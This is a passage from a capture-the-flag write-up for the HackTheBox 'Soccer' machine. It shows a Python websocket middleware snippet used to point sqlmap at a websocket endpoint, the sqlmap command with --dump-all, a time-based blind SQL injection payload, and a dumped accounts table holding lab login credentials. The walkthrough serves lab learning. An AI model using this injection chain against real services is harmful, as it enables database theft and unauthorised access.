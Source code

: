 Take their script and add the websocket we found and change the data type to id.

Should look something like this.
```python
ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message
```
Now run the script.

```console
-─$ python3 soccer.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```
In another console run sqlmap with ```sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump-all --batch --time-sec 10```

It takes awhile and I ran into alot of issues. Likely from all the other players on the same machine and the resets happening.

If you are having trouble just run it a few times until it works.

```console
[14:53:33] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 98 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 7135 FROM (SELECT(SLEEP(5)))AeFX)
```

After a long time we finally get the username and password and can login through ssh!

```console
Database: soccer_db
Table: accounts
[1 entry]
+------+----------------------+----------------------+----------+
| id   | email                | password             | username |
+------+----------------------+----------------------+----------+
| 1324 | player@pla\x9der.htb | PlayerOftheMatch2022 | player   |
+------+----------------------+----------------------+----------+
```
